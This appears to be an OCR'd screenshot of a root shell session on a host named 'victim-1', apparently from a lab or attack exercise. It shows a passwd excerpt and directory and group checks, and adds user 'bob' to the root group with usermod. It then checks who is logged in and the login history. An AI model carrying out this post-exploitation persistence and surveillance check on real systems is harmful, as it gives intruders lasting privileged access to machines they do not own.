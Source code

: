```
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
bob:x:1000:1000::/home/bob:/bin/bash
john:x:1001:1001::/home/john:/bin/bash
```

```
root@victim-1:~# ls -al /home
ls -al /home
total 12
drwxr-xr-x 1 root root 4096 Jun 11 03:11 .
drwxr-xr-x 1 root root 4096 Jun 11 02:51 ..
drwxr-xr-x 2 john john 4096 Jun 11 03:11 john
```

```
root@victim-1:~# groups
groups
root
```

```
root@victim-1:~# groups bob
groups bob
bob : bob
```

```
root@victim-1:~# usermod -aG root bob
usermod -aG root bob
```

```
root@victim-1:~# groups bob
groups bob
bob : bob root
```

```
root@victim-1:~# w
w
bash: w: command not found
root@victim-1:~# who
who
```

```
root@victim-1:~# last
last

wtmp begins Wed Apr 26 04:39:33 2023
```

```
root@victim-1:~# lastlog
lastlog
Username         Port     From             Latest
root                                       **Never logged in**
daemon                                     **Never logged in**
bin                                        **Never logged in**
sys                                        **Never logged in**
sync                                       **Never logged in**
games                                      **Never logged in**
man                                        **Never logged in**
lp                                         **Never logged in**
mail                                       **Never logged in**
news                                       **Never logged in**
uucp                                       **Never logged in**
proxy                                      **Never logged in**
www-data                                   **Never logged in**
```